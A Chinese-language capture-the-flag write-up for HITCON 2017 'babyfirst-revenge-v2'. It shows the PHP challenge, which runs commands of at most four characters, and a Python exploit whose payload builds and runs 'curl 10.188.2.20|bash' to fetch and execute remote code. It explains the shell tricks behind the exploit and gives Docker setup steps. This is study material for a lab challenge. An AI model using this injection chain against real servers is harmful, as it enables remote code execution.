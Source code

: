 分享自制Dockerfile：[Github](https://github.com/Pr0phet/hitcon2017Dockerfile/tree/master/hitcon-ctf-2017/babyfirst-revenge-v2) 

这题相比于上一题 条件更加的苛刻了 只允许执行最多四个字符
源码如下：
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

那我们之前的生成 ls -t>g 就不能按照最后一步 ls>>_ 来执行了

但是我们能不能还是按照 生成命令段文件 最后通过ls来拼接命令执行呢？

这里还是以分析Orange大大的exp为主：

Exp:
```python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate "curl orange.tw|python;"
    # generate "curl 10.188.2.20|bash"
    '>\;\\', 
    '>sh\\', 
    '>ba\\', 
    '>\|\\', 
    '>20\\', 
    '>2.\\',
    '>8.\\', 
    '>18\\', 
    '>0.\\', 
    '>1\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # got shell
    'sh x', 
    'sh g', 
]


r = requests.get('http://10.188.2.20:17528/?reset=1')
for i in payload:
    assert len(i) <= 4
    r = requests.get('http://10.188.2.20:17528/?cmd=' + quote(i) )
    print i
    sleep(0.1)
```

首先生成 ls -t >g的命令文件，这里orange大大的方法真的巧妙到极致了！

- 先了解一个小trick，``*``在Linux中代表的是0或多个字符，比如``ls *.txt`` 就表示了列出本目录下所有后缀名为txt的文件，那假如单独执行一个``*``会是什么效果？
在本地尝试了一下 直接输入一个星号的话Linux首先会把当前目录下的所有文件按字典序排序一次，然后将排序的结果当作命令执行，如下：
![🌰](http://upload-images.jianshu.io/upload_images/6949366-fdb5efeab24a2a52.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
那下图的也可以理解了：
![🌰](http://upload-images.jianshu.io/upload_images/6949366-bae9e5b0b49d58dc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
因为*o匹配了 echo 和o，而他们的排序是echo在前，o在后 所以就会执行命令 echo o


- 再认识一下dir 这个命令在大多数系统中都是ls 的alias 但是有些系统中则没有
为什么我们要用这个命令呢 因为之前说过ls 是alphabetically （字典序）那么dir就会排在ls结果的最前面 所以我们*之后dir也是排在最前面 也就充当了拼接文件名的角色

- 大概思路就出来了 我们要构造ls -t>g的命令片段成几个文件名 但是其命令段的首字母不能在d的前面，也就是不能是 **特殊符号 数字 abc** 而且每一段不能超过两个字符，因为其余两个字符要分配给>和\\，如果你尝试一下构造 正常来说是没办法构造出无特殊符号打头的文件名 他总会排到dir的前面，然后更巧妙的地方来了 我们可以生成逆序的命令拼接起来，最后使用rev命令反向文件中的字符串！

- 根据之前我们对\*的认识，我们可以将倒序的命令输入到v文件中，因为\*v能匹配rev 和 v，也就是执行了 rev v命令，然后再将倒序之后的结果>x文件中，这样\*v>x刚刚好是四个字符!

- 但是看到这里 你可能还会在尝试过程中发现问题，那就是逆序之后的命令段应该是 [dir,>sl,>g\>,>t-] 那么这里会有一个问题 因为t的字母序比s后，所以ls之后应该是这样的：
![Oops](http://upload-images.jianshu.io/upload_images/6949366-0891df7a20a05ed6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
解决方法是加多一个参数h，在ls中h是用作格式化l参数之后的存储量大小 使之更适合人类方式阅读 但是如果ls只带参数h的不带参数l话那这个参数是毫无意义的 如图：
![🌰](http://upload-images.jianshu.io/upload_images/6949366-fc6718782a9a6010.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
所以我们将>t-改成>ht-就能解决字典序的问题了


- 接下来的问题就回到了babyfirst-revenge的情况了


#### 使用Dockerfile

##### 安装Docker

##### 搭建
- 进入Dockerfile所在的目录
- 运行命令 ```docker build -t '自定义镜像名称' .``` (请注意最后的点不要少)
- 运行命令 ```docker images``` 查看是否已经成功构建景象
- 运行命令 ```docker run -id --name '自定义容器名称' -m '要分配给此容器的内存上限' --network='要分配给此容器的网络' -p '容器的外部端口':80 '自定义镜像名称' /run.sh```

##### 维护
进入容器 运行指令 ```docker exec -it '容器名称' /bin/bash```


镜像作者：Pr0ph3t
1415314884@qq.com